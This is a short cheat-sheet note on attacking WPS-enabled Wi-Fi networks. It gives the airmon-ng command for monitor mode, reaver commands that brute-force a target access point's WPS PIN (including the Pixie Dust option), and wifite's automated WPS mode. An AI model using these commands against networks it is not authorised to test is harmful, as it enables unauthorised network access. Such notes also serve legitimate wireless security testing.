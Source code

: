 ### Introduction
---
For attacking WPS-abled networks.

### Syntax
---
First enable monitor mode:
```sh
sudo airmon-ng start wlan0
```
Then run:
```sh
sudo reaver -i wlan0mon -vv -b [BSSID]
```
- `-b` for specifying the BSSID / MAC address of the access point
	- Can be obtained with the `wash` tool.
	- Also make sure the `Lck` (lockout) is not enabled.
- `-vv` for verbose.

To also run Pixie Dust attack, we can add `-K`:
```sh
sudo reaver -i wlan0mon -vv -b [BSSID] -K 1
```



`wifite` can also automate the process:
```sh
sudo wifite --wps
```

